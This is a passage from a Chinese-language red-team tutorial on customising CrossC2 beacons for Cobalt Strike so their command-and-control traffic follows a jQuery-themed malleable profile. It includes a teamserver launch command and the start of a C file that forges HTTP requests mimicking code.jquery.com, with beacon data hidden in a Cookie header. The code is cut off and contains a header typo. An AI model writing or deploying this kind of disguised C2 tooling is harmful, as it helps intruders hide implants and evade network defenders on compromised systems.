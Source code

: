 ![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210805100046.png)

那么这里就需要在c2profile.c文件的`cc2_rebind_http_post_recv`函数中实现`base64_encode(decode_mask(base64_decode(find_payload(data))))`(这里是伪代码)，这样即可拿到被AES加密的元数据，随后将元数据再进行base64编码后向下传递。  

同样的`client
{...}`中描述了Beacon发送给TeamServer的数据是如何编码的，那么在发送给TeamServer之前就需要按Profile中的配置进行编码，那么意味着我们需要在`cc2_rebind_http_post_send`中实现`base64_encode(mask_encode(base64_decode(x)))`的操作。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210805100047.png)

同样的`http-get { ... }`配置处的实现思路也是一样的  

TeamServer会根据Profile中配置的这个顺序从下往上进行解密拿到AES加密的元数据,这个过程TeamServer在内部已经实现了。而CrossC2生成的Beacon是不会根据Profile中的配置进行生成的，所以需要手动编写编码和解码的部分。

## 带上C2-Profile重启TeamServer

    
    
    ./teamserver 192.168.225.24 123456 jquery-c2.4.0.profile  
    

## 实现方式1

将C2-Profile中的mask编码去掉，下图只截了`http-post`，还需要去掉`http-get`部分的mask。

![]()

之后来编写c2profile.c文件  

    
    
    #include <stdio.h>  
    #include <stdlib.h>  
    #include <string.h>  
    #include <unistd.h>  
      
    void cc2_rebind_http_get_send(char *reqData, char **outputData, long long *outputData_len) {  
        char *requestBody = "GET /%s HTTP/1.1\r\n"  
                            "Host: code.jquery.comr\n"  
                            "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n"  
                            "Accept-Encoding: gzip, deflate\r\n"  
                            "User-Agent: Mozilla/5.0 (Windows NT 6.3; Trident/7.0; rv:11.0) like Gecko\r\n"  
                            "Cookie: __cfduid=%s\r\n"  
                            "Referer: http://code.jquery.com/\r\n"  
                            "Connection: close\r\n\r\n";  
        char postPayload[20000];  
        sprintf(postPayload, requestBody, "jquery-3.3.1.min.js", reqData);  
      
        *outputData_len =  strlen(postPayload);  
        *outputData = (char *)calloc(1,  *outputData_len);  
        memcpy(*outputData, postPayload, *outputData_len);  
      
    }  
      